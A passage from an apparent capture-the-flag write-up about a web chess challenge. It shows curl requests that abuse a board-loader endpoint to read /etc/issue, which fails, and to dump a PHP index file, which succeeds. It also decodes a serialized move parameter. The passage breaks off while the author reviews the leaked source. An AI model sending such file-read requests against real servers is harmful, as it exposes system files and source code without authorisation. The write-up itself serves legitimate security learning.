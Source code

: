 Unfortunately, this time there is no SQL injection we can use (admin page is not present).

Moreover, although the JavaScript code we came across in EP000CH01 is still in the page, the vulnerability in the board loader API has been fixed.

```shell
❯ curl 'https://hackerchess2-web.h4ck.ctfcompetition.com/load_board.php' -X POST \
    --data 'filename=/etc/issue' --output -
unsupported board
```

#### Solution

Getting back to the game, I noticed that the first time you click on one of your pieces, the browser will load the page passing the clicked coordinates. For instance:

```text
https://hackerchess2-web.h4ck.ctfcompetition.com/index.php?move_start=e2
```

The game now shows the next possible moves. When is clicked, the browser loads a page with a base64 encoded `move_end` parameter. For instance:

```text
https://hackerchess2-web.h4ck.ctfcompetition.com/?move_end=YToyOntpOjA7czoyOiJkMiI7aToxO3M6MjoiZDQiO30=
```

If we decode the b64, we get something like:

```shell
❯ echo "YToyOntpOjA7czoyOiJkMiI7aToxO3M6MjoiZDQiO30=" | base64 -d
a:2:{i:0;s:2:"d2";i:1;s:2:"d4";}
```

At first, I couldn't see anything interesting here, and I was a bit lost.

Then I remembered that I had full access to the source code in EP000CH01. Since this version of the game is just a patched version of that one, I downloaded its source:

```php
❯ curl -s 'http://hackerchess-web.h4ck.ctfcompetition.com/load_board.php' -X POST \
    --data 'filename=./index.php' --output -
Loading Fen: <?php
session_save_path('/mnt/disks/sessions');
session_start();
if (isset($_GET['restart'])) {
    session_destroy();
    header("Location: ". "/");
}
[...]
```

I opened the code in my favourite editor and found few interesting facts:

- this web application is a wrapper around the CLI game `/usr/games/stockfish`;

```php
[...]
class Stockfish
{
    public $cwd = "./";
    public $binary = "/usr/games/stockfish";
    public $other_options = array('bypass_shell' => 'true');
    public $descriptorspec = array(
        0 => array("pipe","r"),
                1 => array("pipe","w"),
    );
    private $process;
    private $pipes;
    private $thinking_time;

```
